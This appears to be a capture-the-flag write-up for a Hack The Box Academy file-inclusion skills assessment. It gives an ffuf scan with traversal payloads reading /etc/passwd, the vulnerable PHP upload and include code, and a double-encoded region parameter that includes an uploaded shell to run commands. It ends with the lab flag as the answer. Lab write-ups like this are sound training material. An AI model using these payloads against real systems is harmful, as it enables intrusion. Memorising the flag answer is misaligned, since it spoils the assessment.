



# Section 11: Skills Assessment - File Inclusion

Module: 20. File Inclusion

---

## Questions & Answers

### 1. Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

Context:
- Firstly, found the `contact.php` where we can upload files, this is suspicious so I tried uploading a PHP shell and got redirected to `http://154.57.164.67:31773/thanks.php?n=test`, but this isn't vulnerable to LFI.
- It just takes the `n` parameter and echoes it, emunerating the app, by viewing page source of the home page found another route:
```html
<SNIP>
<body>
    <header>
        <nav>
            <a href="/"></a>
<SNIP>
```
- Catch this request with Burp Suite for further emunerating.
- With the correct hash/filename we will get the correct PNG image, if not we got blank:


- Tried run an automated scanning on this route:
```bash
┌─[eu-academy-2]─[10.10.15.146]─[htb-ac-2162140@htb-lszxre5vh3-htb-cloud-com]─[~]
└──╼ [★]$ ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://154.57.164.67:31773/api/image.php?p=FUZZ' -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://154.57.164.67:31773/api/image.php?p=FUZZ
 :: Wordlist         : FUZZ: /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 168ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 168ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 168ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 168ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 168ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 168ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 168ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 168ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 168ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 168ms]
....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 168ms]
....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 168ms]
....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 168ms]
....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 171ms]
....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 171ms]
....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 170ms]
....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 171ms]
....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 171ms]
....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 170ms]
:: Progress: [930/930] :: Job [1/1] :: 236 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
- Confirmed the LFI works:

- However the flag file is a random filename on `/`, therefore we have to have the shell, the `apply.php` has a form allow us to upload files through `api/application.php`, therefore read the source file:
```
/api/image.php?p=....//api/application.php
```
```php
<?php
$firstName = $_POST["firstName"];
$lastName = $_POST["lastName"];
$email = $_POST["email"];
$notes = (isset($_POST["notes"])) ? $_POST["notes"] : null;

$tmp_name = $_FILES["file"]["tmp_name"];
$file_name = $_FILES["file"]["name"];
$ext = end((explode(".", $file_name)));
$target_file = "../uploads/" . md5_file($tmp_name) . "." . $ext;
move_uploaded_file($tmp_name, $target_file);

header("Location: /thanks.php?n=" . urlencode($firstName));
?>
```
- Our filename will be md5 hash before storing to `/uploads/` folder. The ext is keep the original file ext. Read the `contact.php` to execute our shell:
```
/api/image.php?p=....//contact.php
```
```php
<html>
    <head>
        <title>&lt;sumace/></title>
        <link rel="stylesheet" href="https://unpkg.com/mvp.css">
        <link rel="stylesheet" href="/css/custom.css">
    </head>
    <body>
        <header>
            <nav>
                <a href="/"></a>
                <ul>
                    <li><a href="/">Home</a></li>
                    <li>Contact</li>
                    <li><a href="/apply.php">Apply</a></li>
                </ul>
            </nav>  
            <section>
                <header>
                    <h1>Contact us.</h1>
                    <p>Give us a call. <mark>We will sort it out</mark>.</p>
                </header>
                <p>
                    <?php
                    $region = "AT";
                    $danger = false;

                    if (isset($_GET["region"])) {
                        if (str_contains($_GET["region"], ".") || str_contains($_GET["region"], "/")) {
                            echo "'region' parameter contains invalid character(s)";
                            $danger = true;
                        } else {
                            $region = urldecode($_GET["region"]);
                        }
                    }

                    if (!$danger) {
                        include "./regions/" . $region . ".php";
                    }
                    ?>
                </p>
            </section>
        </header>
        <footer>
            <hr>
            <p>
                <a href="/"></a><br>
                Sumace Consulting Gmbh<br>
                Rasumofskygasse 23/25, 1030 Wien<br>
                +43 670 8872 958<br>
            </p>
        </footer>
    </body>
</html>
```
- Another LFI vulnerability, upload a `shell.php`, read it through `http://154.57.164.67:31773/contact.php?region=%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389&cmd=ls`, got:
```
api apply.php contact.php css images index.php regions thanks.php uploads
```
```
ls / => bin boot dev etc flag_09ebca.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
cat /flag_09ebca.txt => eedbb78d4800aa45573840ed6bd2d1e3
```

**Answer:** `eedbb78d4800aa45573840ed6bd2d1e3`

---

[Back to Module Index](./README.md)
